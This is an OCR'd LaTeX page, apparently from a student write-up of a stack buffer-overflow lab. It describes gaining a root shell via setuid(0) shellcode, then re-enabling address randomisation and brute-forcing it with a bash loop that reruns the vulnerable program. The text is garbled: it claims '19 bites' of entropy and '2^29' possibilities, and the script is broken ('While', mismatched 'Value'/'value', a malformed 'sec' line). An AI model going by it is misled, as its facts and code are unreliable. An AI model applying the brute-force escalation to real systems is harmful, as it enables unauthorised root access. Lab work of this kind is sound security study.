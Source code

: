 \documentclass[14pt]{extarticle}
\begin{document}
When running the ./stack program with the new badfile created by adding the changes into the assembly code, I was given a root shell. This means that executing the setuid(0) command before creating a shell will effectively bypass the countermeasure set by dash.

\section{Task 4 - Defeating Address Randomization}
On newer linux machines, the stack only has 19 bites of entropy, which means that there at a ton of possibilities for the location of the stack base (2\^29). Since this number is not to crazy high, it is possible to brute force. For this test we will re-enable the stack randomization\cite{seed-bof}.
This can be done with the following command:\\
\begin{lstlisting}[language=sh]
sudo /sbin/sysctl -w kernel.randomize_va_space=2
\end{lstlisting}
Now I will use a brute force attack to find the correct address to place in the badfile. I will use the given file to brute force the address (br-force-addr.sh) this program will create an infinite loop that will continuously run the exploit until it works (it could run for a while).
I will know the attack has worked when I retrieve a shell, since the execution of the shell will prevent the stack.c program from dying, and thus pause the bash script until it finishes the stack.c program.
The bash program looks as follow:\\
\begin{lstlisting}[language=sh]
#!/bin/bash

SECONDS=0
Value=0
# continuously try the attack until it works or the program is killed
While [ 1 ]
  do
	# increment the attempt counter.
  value=$(( $value + 1))
	# output the duration of time the program has been running
  duration=$SECONDS
	# to keep from outputting a large number of seconds, just use minutes
  min=$(($duration / 60))
	# determine how many seconds past the last minute have passed
  sec=$99$duration % 60))
  echo "$min minutes and $sec seconds elapsed. "
  echo "the program has been running $value times so far."

	# attempt the attack and repeat
	# this line will pause the loop when the attack is executed correctly, since bash will wait for the program to return before continuing
  ./stack
done

\end{lstlisting}\cite{seed-bof}
\end{document}
